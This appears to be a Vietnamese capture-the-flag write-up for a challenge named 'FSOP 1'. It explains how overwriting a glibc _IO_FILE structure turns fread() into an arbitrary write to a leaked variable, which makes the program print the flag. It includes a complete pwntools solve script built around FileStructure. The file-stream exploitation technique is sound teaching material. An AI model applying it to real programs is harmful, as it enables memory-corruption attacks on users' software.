


# FSOP 1

## Overview



Nhìn qua hàm `main` ta dễ dàng thấy được bug trong chương trình. Chúng ta đi qua từng lệnh chính trong hàm `main` nhé:

- Đầu tiên chương trình leak cho ta địa chỉ của `aura`

- Sau đó sử dụng hàm `fopen` để mở file và lưu địa chỉ `_IO_FILE` vào biến `buf`

- Read `0x100` byte vào địa chỉ lưu ở biến `buf` **(Bug ở đây là chương trình cho phép ta nhập dữ liệu vào địa chỉ của `_IO_FILE` => thay đổi được các giá trị trong đó)**

- Đọc 8 byte bằng `fread()` với các tham số được lưu ở `IO_FILE`

- Kiểm tra `aura != 0`, nếu `TRUE`  => in ra `flag`

## EXPLOIT

- Như ta đã tìm được bug ở bên trên, chương trình cho phép ta nhập dữ liệu vào địa chỉ của `_IO_FILE`. Mà hàm `fread()` sẽ lấy các tham số được lưu ở `IO_FILE` để biết được địa chỉ cần nhập vào, `fd` là bao nhiêu để thực thi lệnh .

- Vậy ta cần điều chỉnh giá trị tại `aura`, => ta sẽ thay đổi trường `_IO_buf_base` (địa chỉ chúng ta cần nhập vào) và `_IO_buf_end` (địa chỉ cuối chúng ta muốn nhập) đến địa chỉ target là `aura`. Đồng thời, cần phải chỉnh trường `_fileno` (`file number`) về 0 để `fread()` đọc dữ liệu từ bàn phím



- Tiếp đến, để có thể thực hiện kĩ thuật Arbitrary Read, ta cần phải set `read_ptr` = `read_end` để báo cho chương trình bộ đệm hiện tại đã hết và lấy thêm từ tệp => sẽ lấy địa chỉ target của chúng ta

- Ý tưởng và khái niệm là vậy nhưng ta đã có lệnh trong `pwntools` set hộ các giá trị đó mà không cần ta set thủ công từng trường một:

```python
from pwn import *

fp = FileStructure()
fp.read(aura,0x20)
payload = bytes(fp)[:0x74]

```
- Còn 1 điều, chúng ta còn cần phải set số byte nhập vào lớn hơn so với số byte mà hàm `fread()` yêu cầu để có thể thực hiện thành công.

### Solve script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./chall")

context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* main +124

        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('')
else:
    # p = gdb.debug([exe.path], gdbscript='''
    #     b* main +181

    #     c
    #     ''')
    p = process([exe.path])
# GDB()
# input("a")
p.recvuntil("my aura: ")
aura = int(p.recvline()[:-1],16)
info("aura: " + hex(aura))

fp = FileStructure()
fp.read(aura,0x20)
payload = bytes(fp)[:0x74]


sl(payload)
sleep(1)
sl(b'a'*0x20)


p.interactive()


```
